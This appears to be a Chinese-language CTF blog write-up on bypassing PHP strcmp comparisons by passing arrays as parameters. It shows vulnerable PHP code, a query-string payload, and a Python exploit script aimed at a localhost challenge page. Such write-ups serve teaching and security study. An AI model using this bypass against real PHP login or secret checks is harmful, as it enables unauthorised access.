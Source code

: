 ```yaml
---
layout: post
title: "[PHP] Strcmp函數繞過"
date: 2016-11-21 22:18:02 +0800
categories: [security, php]
tags: [security, php]
---
```



```php
<?php
include('flag.php');

$username = isset($_GET['username']) ? $_GET['username'] : '';
$password = isset($_GET['password']) ? $_GET['password'] : '';

if( strcmp($username,$flag) == 0 && strcmp($password,$flag) == 0 )
{
	echo $flag;
}
else
{
	echo 'try again';
}

show_source(__FILE__);
?>
```

漏洞出現於

```php
if( strcmp($username, $flag) == 0 && strcmp($password, $flag) == 0 )
```


PHP Strcmp函數 可利用輸入陣列繞過檢查


附上 payload
<pre>payload  = username[]=aaa&amp;password[]=aaa</pre>

成功後頁面
![成功後頁面](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2016-11-21/1.png)


附上Exploit

```py
#coding=utf-8
import requests
import re
host = 'http://127.0.0.1/ctf/strcmp.php'
port = 80

payload = 'username[]=aaa&password[]=aaa'
req = requests.post(host,params=payload)
dump = req.text
pat = re.compile(r'c+.*}')  # + 代表開頭 *代表結尾
flag  = re.findall(pat, str(dump))
print (flag[0])
```
